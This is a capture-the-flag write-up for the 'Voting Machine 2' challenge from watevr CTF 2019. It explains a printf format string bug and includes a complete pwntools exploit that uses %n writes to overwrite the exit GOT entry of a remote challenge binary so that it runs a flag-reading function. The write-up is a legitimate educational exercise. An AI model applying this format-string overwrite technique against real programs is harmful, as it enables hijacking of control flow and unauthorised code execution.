 ## Voting Machine 2

File: [kamikaze2](/post/2019-12-15_watevr-ctf-2019-writeups/files/kamikaze2)

This binary had a format string vulnerability, since printf is being used without any format specifiers.

{{< figure src="/post/2019-12-15_watevr-ctf-2019-writeups/images/vm2_1.png" >}}

I played around with the input for a while, realised that there was an alignment issue (of 2), when trying to get my input onto the stack variables. After this, we can see our input string at the 8th output (stack output due to format string bug) when supplied with `%x`s. The objective here is to replace the exit call at the end of main (FUN_084207fb) with a function that reads the flag (FUN_08420736).

After this, it becomes just a matter of calculating offsets. We place the return address on the stack in two parts, and the offsets are calculated accordingly. I could go in depth regarding the offsets, but it is a pretty simple (not easy) process. If you have doubts, leave a comment, I will explain it.

The final exploit code is -

```python
from pwn import *
# context.log_level = 'debug'
p = process("./kamikaze2")
p = remote("13.53.125.206", 50000)

offset = 50
func = 0x08420736
main = 0x084207fb
exit_plt = 0x08422024

def pad(s):
	return s+"X"*(offset-len(s))

exploit = ""
exploit += "AA"
exploit += p32(exit_plt)
exploit += p32(exit_plt+2)
exploit += "BBBBCCCC"
exploit += "%8$1828x"
exploit += "%8$n"
exploit += "%65804x"
exploit += "%9$n"

print(pad(exploit))
payload = pad(exploit)

p.recvuntil(': ')

p.sendline(payload)

with open('payload', 'wb') as f:
    f.write(pad(exploit))

p.interactive()
```
